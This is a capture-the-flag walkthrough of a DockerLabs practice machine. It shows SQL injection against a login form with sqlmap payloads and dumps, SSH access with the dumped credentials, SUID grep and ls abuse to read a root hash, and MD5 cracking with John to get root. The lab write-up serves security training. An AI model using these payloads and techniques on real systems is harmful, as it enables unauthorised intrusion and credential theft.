

# backend

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| backend | 4bytes | easy | dockerlabs |

**Summary:** The compromise started with service discovery that exposed SSH on port 22 and Apache on port 80, followed by web inspection that revealed a login workflow vulnerable to SQL injection in the username parameter. By capturing the authentication request and replaying it through sqlmap, the attacker confirmed multiple injection techniques against a MariaDB backed application, enumerated the `users` database, and dumped cleartext credentials from the `usuarios` table. Credential reuse enabled SSH access as `pepe`, where post exploitation enumeration identified dangerous SUID binaries, most importantly `grep` and `ls`, which allowed direct reading of sensitive files inside `/root` without sudo rights. Extracting `/root/pass.hash`, cracking the MD5 value with John and rockyou, and then authenticating with `su` completed privilege escalation to root.

---

## Reconnaissance

1. I defined the target and executed a full TCP service scan with default scripts and version detection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-19 23:34 WIB
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 23:34 (0:00:06 remaining)
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 23:34 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
|_  256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: test page
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.25 seconds
```

2. I browsed the exposed web application and identified the home view and login portal.




3. I observed SQL injection behavior in the `username` parameter and captured the POST request for automated testing.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ cat req.txt
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: id,en-US;q=0.9,en;q=0.8,id-ID;q=0.7,la;q=0.6
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 25
Content-Type: application/x-www-form-urlencoded
Host: 172.17.0.2
Origin: http://172.17.0.2
Referer: http://172.17.0.2/login.html
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36

username=hello&password=a
```

## Initial Access

1. I used sqlmap against the captured request to validate injection and enumerate available databases.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ sqlmap -r req.txt --batch --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.11#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
sqlmap identified the following injection point(s) with a total of 318 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=hello' RLIKE (SELECT (CASE WHEN (3884=3884) THEN 0x68656c6c6f ELSE 0x28 END))-- ebWM&password=a

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=hello' AND (SELECT 3672 FROM(SELECT COUNT(*),CONCAT(0x717a6b7071,(SELECT (ELT(3672=3672,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- KMzP&password=a

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=hello' AND (SELECT 9236 FROM (SELECT(SLEEP(5)))wKCo)-- dabA&password=a
---
[23:54:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:54:23] [INFO] fetching database names
[23:54:23] [INFO] retrieved: 'information_schema'
[23:54:23] [INFO] retrieved: 'mysql'
[23:54:23] [INFO] retrieved: 'performance_schema'
[23:54:23] [INFO] retrieved: 'sys'
[23:54:23] [INFO] retrieved: 'users'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```

2. I listed tables in the `users` schema and confirmed the `usuarios` table as the credential store.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ sqlmap -r req.txt --batch -D users --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:54:56 /2026-03-19/

[23:54:56] [INFO] parsing HTTP request from 'req.txt'
[23:54:57] [INFO] resuming back-end DBMS 'mysql'
[23:54:57] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/logerror.html'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=hello' RLIKE (SELECT (CASE WHEN (3884=3884) THEN 0x68656c6c6f ELSE 0x28 END))-- ebWM&password=a

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=hello' AND (SELECT 3672 FROM(SELECT COUNT(*),CONCAT(0x717a6b7071,(SELECT (ELT(3672=3672,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- KMzP&password=a

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=hello' AND (SELECT 9236 FROM (SELECT(SLEEP(5)))wKCo)-- dabA&password=a
---
[23:54:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:54:57] [INFO] fetching tables for database: 'users'
[23:54:57] [INFO] retrieved: 'usuarios'
Database: users
[1 table]
+----------+
| usuarios |
+----------+

[23:54:57] [INFO] fetched data logged to text files under '/home/ouba/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 23:54:57 /2026-03-19/
```

3. I dumped table content and recovered three valid username and password pairs.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ sqlmap -r req.txt --batch -D users -T usuarios --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.11#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:55:10 /2026-03-19/

[23:55:10] [INFO] parsing HTTP request from 'req.txt'
[23:55:10] [INFO] resuming back-end DBMS 'mysql'
[23:55:10] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/logerror.html'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=hello' RLIKE (SELECT (CASE WHEN (3884=3884) THEN 0x68656c6c6f ELSE 0x28 END))-- ebWM&password=a

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=hello' AND (SELECT 3672 FROM(SELECT COUNT(*),CONCAT(0x717a6b7071,(SELECT (ELT(3672=3672,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- KMzP&password=a

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=hello' AND (SELECT 9236 FROM (SELECT(SLEEP(5)))wKCo)-- dabA&password=a
---
[23:55:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:55:10] [INFO] fetching columns for table 'usuarios' in database 'users'
[23:55:10] [INFO] retrieved: 'id'
[23:55:10] [INFO] retrieved: 'int(11)'
[23:55:10] [INFO] retrieved: 'username'
[23:55:10] [INFO] retrieved: 'varchar(255)'
[23:55:10] [INFO] retrieved: 'password'
[23:55:10] [INFO] retrieved: 'varchar(255)'
[23:55:10] [INFO] fetching entries for table 'usuarios' in database 'users'
[23:55:10] [INFO] retrieved: '1'
[23:55:10] [INFO] retrieved: '$paco$123'
[23:55:10] [INFO] retrieved: 'paco'
[23:55:10] [INFO] retrieved: '2'
[23:55:10] [INFO] retrieved: 'P123pepe3456P'
[23:55:10] [INFO] retrieved: 'pepe'
[23:55:10] [INFO] retrieved: '3'
[23:55:10] [INFO] retrieved: 'jjuuaann123'
[23:55:10] [INFO] retrieved: 'juan'
Database: users
Table: usuarios
[3 entries]
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

4. I authenticated over SSH using recovered credentials and established a shell as `pepe`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ ssh pepe@$ip
pepe@172.17.0.2's password:
pepe@5065eeec8c00:~$ id;ls -la
uid=1000(pepe) gid=1000(pepe) groups=1000(pepe)
total 8
drwxr-xr-x 2 root root 4096 Aug 27  2024 .
drwxr-xr-x 1 root root 4096 Aug 27  2024 ..
pepe@5065eeec8c00:~$ which sudo
pepe@5065eeec8c00:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 653888 Jun 22  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 203152 Jan 24  2023 /usr/bin/grep
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 35128 Mar 28  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 72000 Mar 28  2024 /usr/bin/su
-rwsr-xr-x 1 root root 59704 Mar 28  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 151344 Sep 20  2022 /usr/bin/ls
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
pepe@5065eeec8c00:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
pepe:x:1000:1000::/home/pepe:/bin/bash
```

## Privilege Escalation

1. During local enumeration I abused SUID `ls` to list `/root` and then SUID `grep` to read the protected hash file.

```bash
pepe@5065eeec8c00:~$ ls -la /root
total 24
drwx------ 1 root root 4096 Aug 27  2024 .
drwxr-xr-x 1 root root 4096 Mar 19 16:33 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Aug 27  2024 .ssh
-rw-r--r-- 1 root root   33 Aug 27  2024 pass.hash
pepe@5065eeec8c00:~$ grep '' /root/pass.hash
e43833c4c9d5ac444e16bb94715a75e4
```

2. I saved the hash locally and cracked it with John using the rockyou wordlist.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ echo 'e43833c4c9d5ac444e16bb94715a75e4' > hash.txt
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/backend]
└─$ john --format=Raw-MD5 hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob34      (?)
1g 0:00:00:00 DONE (2026-03-20 00:00) 9.090g/s 7135Kp/s 7135Kc/s 7135KC/s spoonieg7..spicyc1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

3. I switched to root with the cracked credential and validated full administrative access.

```bash
pepe@5065eeec8c00:~$ su - root
Password:
root@5065eeec8c00:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
5065eeec8c00
/root
total 24
drwx------ 1 root root 4096 Aug 27  2024 .
drwxr-xr-x 1 root root 4096 Mar 19 16:33 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Aug 27  2024 .ssh
-rw-r--r-- 1 root root   33 Aug 27  2024 pass.hash
```

---

## Attack Chain Summary
1. **Reconnaissance**: Network scanning identified two exposed services, SSH and HTTP, then browser validation mapped the attack surface to a login form.
2. **Vulnerability Discovery**: The authentication request was tested and confirmed injectable through the `username` parameter with boolean, error, and time based SQL injection vectors.
3. **Exploitation**: Database enumeration and table dumping exposed valid plaintext credentials, enabling direct SSH authentication as a low privilege user.
4. **Internal Enumeration**: Host inspection revealed unusual SUID assignments on `grep` and `ls`, enabling access to restricted root files from an unprivileged context.
5. **Privilege Escalation**: The root MD5 hash was extracted, cracked to `spongebob34`, and used with `su` to obtain root shell access.

